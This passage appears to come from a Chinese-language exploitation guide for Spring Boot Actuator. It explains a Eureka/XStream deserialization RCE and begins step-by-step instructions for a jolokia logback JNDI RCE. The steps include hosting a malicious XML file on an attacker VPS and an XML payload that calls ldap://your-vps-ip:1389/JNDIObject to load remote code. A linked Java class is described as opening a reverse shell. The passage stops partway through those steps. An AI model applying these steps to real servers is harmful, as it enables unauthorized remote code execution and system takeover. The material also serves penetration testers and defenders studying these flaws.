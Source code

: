 **漏洞原理：**

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

**漏洞分析：**

​ [Spring Boot Actuator从未授权访问到getshell](https://www.freebuf.com/column/234719.html)

**漏洞环境：**

[repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

正常访问：

```
http://127.0.0.1:9093/env
```

#### 0x04：jolokia logback JNDI RCE

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）
* 普通 JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过

**利用方法：**

**步骤一：查看已存在的 MBeans**

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

**步骤二：托管 xml 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

**步骤三：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：
